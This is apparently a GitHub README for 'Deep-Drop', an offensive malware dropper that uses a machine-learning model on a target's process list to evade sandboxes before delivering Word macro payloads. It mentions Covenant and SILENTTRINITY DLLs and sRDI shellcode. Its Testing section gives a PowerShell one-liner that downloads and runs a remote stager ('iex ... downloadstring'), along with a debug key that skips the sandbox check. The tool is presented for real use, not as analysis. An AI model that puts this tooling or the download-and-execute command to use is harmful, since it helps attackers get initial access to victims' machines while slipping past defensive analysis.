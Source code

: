 # Deep-Drop
Machine learning enabled dropper

### Quick Start
```
pip install -r requirements.txt
python deepdrop.py
```

Copy paste the payload (core\macros) into a word doc and run.

### Structure
```
deepdrop.py -> handles loading models, patching payloads, and starting app
core
  bin\ -> contains dlls (covenant, silenttrinity, etc. Alternatively grab a test dll from [here](https://github.com/monoxgas/sRDI/blob/master/TestDLL/dllmain.cpp)
  data\ -> process list data for (re)training
  models\ -> trained models used for classification
  payloads\ -> template and patched payloads for initial access
  stagers\ -> stager templates 
  utils\ -> contains SRDi
  config.py -> set info for various items, paths, dlls, etc.
  ddmodels.py -> deep drop model classes
  deepdrop.py -> dropper parsing, staging, and decision logic
  logging.py -> prettify logging output
  routing.py -> holds the main app routes
```

### Quick start
```
λ pip3 install requirements
λ python3 deepdrop.py -d

 ____              ____
|    \ ___ ___ ___|    \ ___ ___ ___
|  |  | -_| -_| . |  |  |  _| . | . |
|____/|___|___|  _|____/|_| |___|  _|
              |_|               |_|


[-] All models loaded
[-] Routes loaded
[-] Payloads patched for localhost

[DBG] ece9d57d-ef30-47ed-accb-46ea3c436257

 * Serving Flask app "deepdrop" (lazy loading)
  ...
```

### Testing
Passing `-d\--debug` to deepdrop will give back a key that can be used to bypass the sandbox check for testing payloads. `powershell.exe -c "iex (new-object net.webclient).downloadstring('http://localhost/ece9d57d-ef30-47ed-accb-46ea3c436257')"`. Otherwise, submitting a process list and getting a decision from the model is the only way to get a payload executed.

### Staging 
Currently only powershell staging is implemented.

